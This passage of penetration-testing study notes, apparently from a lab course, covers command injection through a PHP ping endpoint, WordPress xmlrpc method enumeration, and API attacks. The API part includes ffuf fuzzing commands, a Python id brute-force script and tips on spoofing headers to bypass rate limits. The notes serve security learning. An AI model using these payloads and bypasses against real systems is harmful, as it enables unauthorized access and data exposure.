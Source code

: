   * We can only give a number between 1 to 4 for number of packets

  * Due to the way functions like ```escapeshellarg()```, ```shell_exec()``` and ```call_user_func_array()``` are used in source code, we could get command injection by issuing a request such as ```/ping-server.php/system/ls``` instead of the expected ```ping-server.php/ping/www.example.com/2```

* ```xmlrpc.php``` in WordPress can also be used for WordPress attacks; [```system.listMethods```](https://codex.wordpress.org/XML-RPC/system.listMethods) shows list of available methods, from which we can see if certain methods that can be exploited, such as ```pingback.ping```, are allowed or not

## API Attacks

* Information disclosure:

  * Given an API, we can start by parameter fuzzing:

    ```shell
    ffuf -w "/usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://10.129.66.86:3003/?FUZZ=test_value'
    # identify word size to be filtered after a few requests

    ffuf -w "/usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://10.129.66.86:3003/?FUZZ=test_value' -fs 19
    ```
  
  * In this example, 'id' parameter name with a test value '1' gives us a response:

    ```sh
    curl http://10.129.66.86:3003/?id=1
    ```
  
  * We can create a script to retrieve all info from API for values of 'id' from 1-10000, and filter for responses with 'position' keyword to identify valid responses:

    ```py
    import requests, sys

    def brute():
        try:
            value = range(10000)
            for val in value:
                url = sys.argv[1]
                r = requests.get(url + '/?id='+str(val))
                if "position" in r.text:
                    print("Number found!", val)
                    print(r.text)
        except IndexError:
            print("Enter a URL E.g.: http://10.129.66.86:3003/")

    brute()
    ```
  
  * If there is a rate limit in place, we can try to bypass it using headers such as ```X-Forwarded-For``` and ```X-Forwarded-IP```, or using proxies
